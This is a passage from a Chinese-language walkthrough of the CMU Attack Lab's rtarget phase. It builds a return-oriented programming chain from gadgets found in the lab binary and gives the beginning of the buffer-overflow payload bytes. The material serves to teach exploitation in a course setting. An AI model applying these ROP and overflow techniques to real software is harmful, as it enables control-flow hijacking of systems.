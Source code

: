 但是n的值还是不确定，我们暂且不管继续往下看。剩下就是把rax加到rdi了，这可以用add或者lea指令。经查找rtarget中没有对应add指令但有lea指令gadget，那么确定使用lea指令对rdi自增。然而lea指令跟寄存器的组合种类实在太多了，一种种尝试太浪费时间，这时候我们仔细看看rtarget的反汇编，发现里面有一处是:
```x86asm
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```
这就是告诉我们必须要用这种寄存器的组合来自增了（说实话这个地方非常考验观察能力），于是我们想办法把rax的值复制到rsi，找了一下没有直接的gadget支持，但是找到其它3条替代的指令
```x86asm
   movl %eax, %edx  ;位于rtarget的4019dd
   nop
   movl %edx, %ecx  ;位于rtarget的401a69
   or   %bl,%bl
   movl %ecx, %esi  ;位于rtarget的401a27
   cmp  %al,%al
```
这样就实现了将rax复制到rsi，最后我们再执行上面的lea指令，再找一个复制rax到rdi的gadget，
```x86asm
   movq %rax, %rdi  ;位于rtarget的4019a2
```
就确定了全部gadget，然后根据这个再算出n为0x48（总共8条指令+1个常数，8*9=72=0x48），最终栈中的内容为：

![rl2.jpg](/imgs/attack_lab_rl2_3.jpg)  
于是我们新建文本rl2.txt并输入以下内容
```c
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
06 1a 40 00 00 00 00 00    
a2 19 40 00 00 00 00 00  
ab 19 40 00 00 00 00 00   
```
